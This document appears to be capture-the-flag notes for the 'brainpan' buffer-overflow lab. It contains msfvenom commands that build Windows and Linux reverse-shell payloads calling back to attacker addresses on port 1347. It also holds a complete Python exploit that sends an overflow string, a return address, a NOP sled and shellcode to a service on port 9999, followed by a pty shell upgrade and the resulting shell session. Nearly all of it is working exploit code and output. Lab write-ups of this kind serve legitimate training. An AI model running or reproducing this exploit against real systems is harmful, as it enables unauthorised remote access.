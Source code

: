 generate shellcode

-  msfvenom \-p windows/shell\_reverse\_tcp LHOST=10\.6\.32\.24 LPORT=1347 EXITFUNC=thread \-f python \-a x86 \-b "\\x00" \(badchars\)
-  ## buffuzzer\.py

import sys, socket

buf =  b""
buf \+= b"\\xda\\xc2\\xba\\x92\\xef\\xa7\\x94\\xd9\\x74\\x24\\xf4\\x5b"
buf \+= b"\\x2b\\xc9\\xb1\\x52\\x83\\xeb\\xfc\\x31\\x53\\x13\\x03\\xc1"
buf \+= b"\\xfc\\x45\\x61\\x19\\xea\\x08\\x8a\\xe1\\xeb\\x6c\\x02\\x04"
buf \+= b"\\xda\\xac\\x70\\x4d\\x4d\\x1d\\xf2\\x03\\x62\\xd6\\x56\\xb7"
buf \+= b"\\xf1\\x9a\\x7e\\xb8\\xb2\\x11\\x59\\xf7\\x43\\x09\\x99\\x96"
buf \+= b"\\xc7\\x50\\xce\\x78\\xf9\\x9a\\x03\\x79\\x3e\\xc6\\xee\\x2b"
buf \+= b"\\x97\\x8c\\x5d\\xdb\\x9c\\xd9\\x5d\\x50\\xee\\xcc\\xe5\\x85"
buf \+= b"\\xa7\\xef\\xc4\\x18\\xb3\\xa9\\xc6\\x9b\\x10\\xc2\\x4e\\x83"
buf \+= b"\\x75\\xef\\x19\\x38\\x4d\\x9b\\x9b\\xe8\\x9f\\x64\\x37\\xd5"
buf \+= b"\\x2f\\x97\\x49\\x12\\x97\\x48\\x3c\\x6a\\xeb\\xf5\\x47\\xa9"
buf \+= b"\\x91\\x21\\xcd\\x29\\x31\\xa1\\x75\\x95\\xc3\\x66\\xe3\\x5e"
buf \+= b"\\xcf\\xc3\\x67\\x38\\xcc\\xd2\\xa4\\x33\\xe8\\x5f\\x4b\\x93"
buf \+= b"\\x78\\x1b\\x68\\x37\\x20\\xff\\x11\\x6e\\x8c\\xae\\x2e\\x70"
buf \+= b"\\x6f\\x0e\\x8b\\xfb\\x82\\x5b\\xa6\\xa6\\xca\\xa8\\x8b\\x58"
buf \+= b"\\x0b\\xa7\\x9c\\x2b\\x39\\x68\\x37\\xa3\\x71\\xe1\\x91\\x34"
buf \+= b"\\x75\\xd8\\x66\\xaa\\x88\\xe3\\x96\\xe3\\x4e\\xb7\\xc6\\x9b"
buf \+= b"\\x67\\xb8\\x8c\\x5b\\x87\\x6d\\x02\\x0b\\x27\\xde\\xe3\\xfb"
buf \+= b"\\x87\\x8e\\x8b\\x11\\x08\\xf0\\xac\\x1a\\xc2\\x99\\x47\\xe1"
buf \+= b"\\x85\\xaf\\x91\\xc9\\x4d\\xd8\\x9f\\x09\\x6b\\x5b\\x29\\xef"
buf \+= b"\\x19\\x4b\\x7f\\xb8\\xb5\\xf2\\xda\\x32\\x27\\xfa\\xf0\\x3f"
buf \+= b"\\x67\\x70\\xf7\\xc0\\x26\\x71\\x72\\xd2\\xdf\\x71\\xc9\\x88"
buf \+= b"\\x76\\x8d\\xe7\\xa4\\x15\\x1c\\x6c\\x34\\x53\\x3d\\x3b\\x63"
buf \+= b"\\x34\\xf3\\x32\\xe1\\xa8\\xaa\\xec\\x17\\x31\\x2a\\xd6\\x93"
buf \+= b"\\xee\\x8f\\xd9\\x1a\\x62\\xab\\xfd\\x0c\\xba\\x34\\xba\\x78"
buf \+= b"\\x12\\x63\\x14\\xd6\\xd4\\xdd\\xd6\\x80\\x8e\\xb2\\xb0\\x44"
buf \+= b"\\x56\\xf9\\x02\\x12\\x57\\xd4\\xf4\\xfa\\xe6\\x81\\x40\\x05"
buf \+= b"\\xc6\\x45\\x45\\x7e\\x3a\\xf6\\xaa\\x55\\xfe\\x16\\x49\\x7f"
buf \+= b"\\x0b\\xbf\\xd4\\xea\\xb6\\xa2\\xe6\\xc1\\xf5\\xda\\x64\\xe3"
buf \+= b"\\x85\\x18\\x74\\x86\\x80\\x65\\x32\\x7b\\xf9\\xf6\\xd7\\x7b"
buf \+= b"\\xae\\xf7\\xfd"

shellcode = b"A" \* 515 \+ b"\\xf3\\x12\\x17\\x31" \+ b"\\x90" \* 16 \+ buf
payload = b"TRUN /\.:/" \+ shellcode

try:
s = socket\.socket\(socket\.AF\_INET, socket\.SOCK\_STREAM\)
s\.connect\(\("10\.10\.192\.92", 9999\)\)
s\.send\(payload\)
s\.close\(\)

except:
print \("Error connecting to server"\)
sys\.exit\(\)

keep a netcat listener running on desired port
-  Z:\\home\\puck\> 

## brainpan\.exe was being run on a linux machine using wine\. “File not command” error\.

-  msfvenom \-p linux/x86/shell\_reverse\_tcp LHOST=10\.8\.55\.46 LPORT=1347 EXITFUNC=thread \-f python \-b "\\x00" 
-  ## bufffuzzer\.py

id
uid=1002\(puck\) gid=1002\(puck\) groups=1002\(puck\)
python \-c 'import pty; pty\.spawn\("/bin/sh"\)'
$ id
id
uid=1002\(puck\) gid=1002\(puck\) groups=1002\(puck\)
$ 
